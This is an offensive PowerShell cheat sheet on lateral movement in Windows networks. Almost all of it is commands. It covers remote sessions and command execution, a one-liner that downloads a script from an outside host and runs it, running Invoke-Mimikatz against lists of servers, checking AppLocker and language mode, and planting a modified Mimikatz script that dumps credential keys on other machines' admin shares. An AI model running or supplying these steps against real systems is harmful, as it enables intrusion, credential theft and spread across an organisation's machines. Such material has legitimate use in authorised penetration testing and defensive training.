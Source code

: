 # Lateral Movement

## **Connect to machine with administrator privs**

```
Enter-PSSession -Computername <computername>
```

## **Save and use sessions of a machine**

```
$sess = New-PSSession -Computername <computername>
Enter-PSSession $sess
```

## **Connect to machine with administrator privs**

```
Enter-PSSession -Computername <computername>
$sess = New-PSSession -Computername <computername>
Enter-PSSession $sess
```

## **Execute commands on a machine**

```
Invoke-Command -Computername <computername> -Scriptblock {whoami} 
Invoke-Command -Scriptblock {whoami} $sess
```

## **Load script on a machine**

```
Invoke-Command -Computername <computername> -FilePath <path>
Invoke-Command -FilePath <path> $sess
```

## **Download and load script on a machine**

```
iex (iwr http://xx.xx.xx.xx/<scriptname> -UseBasicParsing)
```

## **Execute locally loaded function on a list of remote machines**

```
Invoke-Command -Scriptblock ${function:<function>} -Computername (Get-Content <list_of_servers>)
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Computername (Get-Content <list_of_servers>)
```

## **Check the language mode**

```
$ExecutionContext.SessionState.LanguageMode
```

## **Enumerate AppLocker policy**

```
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

## **Copy script to other server**

This is a modified MimiKatz script to execute on load.

```
Copy-Item .\Invoke-MimikatzEx.ps1 \\<servername>\c$\'Program Files'
```

To make the modified Mimikatz.ps1 simply duplicate your original mimikatz.ps1 and rename it something like above MimiKatzEX.ps1 and add this to the bottom of the script, after the last }

{% hint style="info" %}
```
Invoke-Mimikatz–Command '"sekurlsa::ekeys
```
{% endhint %}
